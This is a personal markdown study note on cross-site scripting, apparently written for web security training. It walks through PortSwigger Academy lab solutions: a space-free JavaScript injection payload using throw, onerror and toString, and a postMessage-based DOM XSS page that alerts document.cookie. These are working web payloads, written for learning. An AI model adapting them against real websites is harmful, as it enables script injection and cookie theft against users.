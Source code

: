 ```yaml
---
title: XSS Vectors
date: 2021-11-16T21:07:41+01:00
tags: ['cs/security', 'cs/web']
---
```

- [ ] Split into multiple notes
# XSS Vectors
## XSS Vector Without Spaces, Using Throw

This payload is taken from the portswigger academy [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked). The request url is the following `/post?postId=5&%27},x=x=%3E{onerror=alert;throw/**/1337},toString=x,window+'',{x:'<`. When the request is sent, the injected html looks like this:

``` html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5%26%27},x%3dx%3d%3e{onerror%3dalert%3bthrow/**/1337},toString%3dx,window+%27%27,{x%3a%27%3c'}).finally(_ => window.location = '/')">Back to Blog</a>
```

When we extract just the href attribute, remove the javascript prefix and url-decode everything(remember, since we are in an href, url encoded values are actually used in their decoded form, so even though the \' is encoded to %27, it still closes the previous single quote) we are left with the js code:

``` javascript
fetch('/analytics',
  {method:'post',body:'/post?postId=5&'},x=x=>{onerror=alert;throw/**/1337},toString=x,window+''
      ,{x:''}).finally(_ => window.location = '/')
```

What this vector does can be split up into steps:

1.  close the `body:` of the dictionary and close the dictionary, and add a new parameter to the call of the `fetch()` function.
2.  In this new call, define a new function `x` that always throws the error `1337` a. When the function is called, `window.onerror` is set to the `alert` function, so every error thrown in `x()` is passed to `alert` b. then, we throw an error with the message `1337` c. `x(x)` also has a parameter named x, this is because we use the x function as a substitute for `toString`. If we hadn\'t defined it like that, the javascript interpreter would throw an error before we could even call `x`, therefore, our payload wouldn\'t run.
3.  Then, with `toString=x`, we set the toString function to x
4.  Finally, we run `window+''`, which implicitly calls toString and therefore runs our malicious function x.
5.  The rest are used to close the dictionary that we have injected into so that we end up with valid javascript.

# DOM Based XSS message

``` html
<script>
function message(){
document.getElementById('xss').contentWindow.postMessage('{"type":"load-channel","url":"javascript:alert(document.cookie)"}','*');
}
</script>

<iframe height=1000 width=1000 id="xss" src="https://aca21f1a1ea5dc85808d28650079004d.web-security-academy.net/" onload="message()">
</iframe>
```
